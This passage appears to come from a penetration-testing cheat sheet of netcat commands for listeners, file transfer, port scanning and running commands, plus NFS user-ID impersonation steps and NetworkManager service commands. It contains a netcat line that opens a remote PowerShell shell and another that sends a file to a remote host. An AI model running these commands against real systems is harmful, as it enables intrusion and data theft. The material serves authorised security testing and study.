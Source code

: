 ### UDP Listener

```console
$ nc -u <RHOST> <RPORT>
$ nc -u -lnvp <LPORT>
```

or

```console
$ nc -lnvup <LPORT>
```

### File Transfer

#### Listener

```console
$ nc -lnvp <LPORT> > <FILE>
```

#### Remote System

```console
$ nc -w 5 <RHOST> <RPORT> < /PATH/TO/FILE/<FILE>
```

#### Execute powershell.exe

```console
C:\temp\nc64.exe <RHOST> <RPORT> -e powershell.exe
```

### Scanning

```console
$ nc -zv <RHOST> <RPORT>
```

### Execute Shell Commands

```console
$ nc -nvlkp <LPORT> -c "cat /PATH/TO/FILE/<FILE>"
```

## Network File System (NFS)

```console
$ sudo useradd <USERNAME>
$ sudo usermod -u <ID> <USERNAME>
$ sudo su <USERNAME>
```

## NetworkManager

```console
$ sudo systemctl start NetworkManager
$ sudo systemctl stop NetworkManager
$ systemctl status NetworkManager
```
